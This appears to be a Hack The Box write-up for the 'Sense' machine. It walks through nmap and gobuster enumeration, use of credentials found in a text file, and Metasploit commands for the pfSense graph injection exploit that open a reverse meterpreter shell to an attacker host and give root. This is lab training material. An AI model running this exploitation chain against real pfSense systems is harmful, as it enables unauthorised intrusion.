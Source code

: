 ![logo](/logo.png)

# [Sense- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 21 Oct 2017 as the tenth machine on HTB,Sense created by [lkys37en](https://app.hackthebox.com/users/709) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Pfsense
  *OpenBSD
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/sense 10.10.10.60
```

###### Output 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/sense 10.10.10.60                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-29 18:46 EAT
Nmap scan report for 10.10.10.60
Host is up (0.33s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.73 seconds
```

looking at the results  we find out that there are 2 ports open and its a `OpenBSD`and its running an `lighttpd`. 

port[80]-  http
port[443]-http

So when we go the browser at [http://10.10.10.60](http://10.10.10.60)  looking at the browser we find a page that we have to connect a certificate.

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/ssl.png)

and  we find the certificate but nothing of important 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/certificate.png)

and we find a browser with a login credentials of `Pf Sense`

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/sense.png)

so lets start a `gobuster` to enumerate all directories 

```sh
gobuster dir -u https://10.10.10.60 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -k --no-error 
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/gobuster.png)

with the lowercase medium wordlist, finds a `changelog.txt` file which states 2 of 3
vulnerabilities have been patched. It also finds a `system-user.txt` creds:`rohit:pfsense

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/systemuser.png)

By using the credential above we then log into the account

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/logiin.png)

Many of the endpoings in the web gui are not actually implemented. There’s nothing in the Interfaces, Firewall, Services, VPN, Diagnostics, or Help menus. System only has Logout. There is a full menu in Status:

I get a `Graph RDS` which by searching it has a vulnerability 

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/graph.png)

```sh
searchsploit pfsense
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/searchsploit.png)

lets examine the exploit

```sh
searchsploit -m 43560
```

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/python.png)

looking at the exploit its `encoding payload to octal`

okay lets start `meterpreter`

```sh
search pfsense_graph_injection_exec
use 0
show options
set PASSWORD pfsense
set RHOST 10.10.10.60
set RPORT 443
set USERNAME rohit
set LHOST 10.10.14.15
```

Then just like that we get the `meterpreter`

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/meterpreter.png)

since it root lets get the flags

![](/Linux/Linux-Easy/OpenBSD/Sense/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------






